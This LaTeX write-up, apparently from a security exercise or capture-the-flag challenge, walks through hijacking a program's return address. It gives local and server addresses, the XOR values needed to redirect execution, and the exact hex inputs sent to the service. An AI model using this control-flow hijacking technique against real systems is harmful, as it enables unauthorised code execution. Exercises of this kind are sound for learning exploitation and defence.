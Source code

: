 \documentclass{article}
\begin{document}
\begin{itemize}
	    \item We first run locally so we can look at the memory in debug mode and understand where to look for the addresses:
		Locally:
        \begin{small}\begin{verbatim}
			wanted ret addr = 0x004017C1 
			existing addr = 0x00401A1D
			should xor with = 0x00000DDC
		\end{verbatim}\end{small}
        Input to disvocer wanted and existing addresses:
        \begin{small}\begin{verbatim}
			0 64 CB000000 57C4E0F5 39D33517 00000000 00000000 00000000 00000000 00000000
					00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
		\end{verbatim}\end{small}
        Input to pass:
        \begin{small}\begin{verbatim}
			0 48 CB000000 57C4E0F5 39D33517 00000000 00000000 00000000 00000000 00000000
					00000000 00000000 00000000 00000DDC
        \end{verbatim}\end{small}
	    \item After we get it working locally, we try the same method on the server, only this time we already
			know at what offsets we can find the procedure offserts we are looking for.
		On server:
        \begin{small}\begin{verbatim}
			wanted ret addr = 0x00401771
			existing addr = 0x004019CD
			should xor with = 0x00000EBC
		\end{verbatim}\end{small}
        Input to disvocer wanted and existing addresses:
        \begin{small}\begin{verbatim}
			0 64 CB000000 57C4E0F5 39D33517 00000000 00000000 00000000 00000000 00000000
					00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
		\end{verbatim}\end{small}
        Input to pass:
        \begin{small}\begin{verbatim}
			0 48 CB000000 57C4E0F5 39D33517 00000000 00000000 00000000 00000000 00000000
					00000000 00000000 00000000 00000EBC
        \end{verbatim}\end{small}
\end{itemize}
\end{document}
